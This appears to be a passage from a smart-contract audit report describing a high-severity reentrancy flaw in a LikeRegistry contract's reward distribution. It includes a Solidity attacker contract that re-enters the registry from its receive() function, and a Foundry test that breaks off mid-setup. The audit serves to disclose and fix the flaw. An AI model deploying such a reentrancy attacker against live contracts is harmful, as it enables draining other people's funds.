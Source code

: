 ### Risk Classification

| Severity Level | Description                                                                                  |
| -------------- | -------------------------------------------------------------------------------------------- |
| HIGH           | Issues that could result in loss of funds, unauthorized access, or complete contract failure |


## Critical Findings

### 1. Reentrancy Vulnerability in LikeRegistry (HIGH)

**Location**: `LikeRegistry.sol` -> `matchRewards()` function

**Description**: The contract is vulnerable to reentrancy attacks during reward distribution. The vulnerability exists because the contract:
1. Updates state after external calls
2. Doesn't use reentrancy protection
3. Handles ETH transfers in an unsafe manner

An attacker could:
- Create a malicious contract with a profile
- Exploit the reentrancy to drain funds
- Manipulate the matching system

**Impact**:
- Potential loss of all contract funds
- Manipulation of matching system
- Breaking of core protocol functionality

**Proof of Concept**:
```solidity
contract AttackerContract {
    LikeRegistry public likeRegistry;
    address public owner;
    uint256 public attackCount;
    
    constructor(address payable _likeRegistry) {
        likeRegistry = LikeRegistry(_likeRegistry);
        owner = msg.sender;
    }
    
    receive() external payable {
        if (address(likeRegistry).balance >= 1 ether && attackCount < 3) {
            attackCount++;
            likeRegistry.likeUser{value: 1 ether}(owner);
        }
    }
}

function testReentrancyAttack() public {
    // Initial setup
    vm.deal(bob, 2 ether);
    vm.deal(address(attacker), 3 ether);
    
    // Log initial balances
    console.log("Initial Bob Balance:", bob.balance);
    console.log("Initial Attacker Balance:", address(attacker).balance);
    console.log("Initial Contract Balance:", address(likeRegistry).balance);
    
    // Create profile for attacker (required for exploit)
    vm.prank(address(attacker));
    profileNFT.mintProfile("Attacker", 25, "ipfs://...");
    
    // First legitimate like to set up the attack
    vm.prank(bob);
```